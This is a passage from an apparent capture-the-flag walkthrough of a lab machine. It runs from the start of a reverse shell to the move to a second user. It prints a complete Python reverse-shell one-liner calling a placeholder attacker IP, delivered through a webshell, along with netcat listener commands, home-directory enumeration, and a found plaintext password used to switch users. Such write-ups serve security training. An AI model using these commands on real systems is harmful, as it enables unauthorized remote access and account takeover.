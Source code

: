 	Got `/usr/bin/python`. Now we can give a reverse shell payload:

	```bash
	python -c "import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('<attacker-ip>',<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/bash')"
	```

	> Replace `<attacker-ip>` and `<port>`

	Encode the payload for URL and run it via the webshell. Listen on port 1234 with `nc -lvnp 1234` and get a reverse shell as `www-data`.
	To access the reverse shell, use `nc`:

	```bash
	nc -lvnp <port>
	```

9. Local Enumeration

	Inside the shell:

	```bash
	cd /home
	ls -l
	```

	Output:

	```bash
	total 0
	drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
	drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
	drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
	drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
	dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
	drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
	drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
	```

10. Privilege Escalation: lmezard user

	Navigate to `/home/LOOKATME` and find a `password` file:

	```
	lmezard:G!@M6f4Eatau{sF"
	```

	Switch user to lmezard:

	```bash
	su lmezard
	```

	Password: G!@M6f4Eatau{sF"

	Successfully logged in as lmezard.

11. Accessing Lmezard's Home Directory
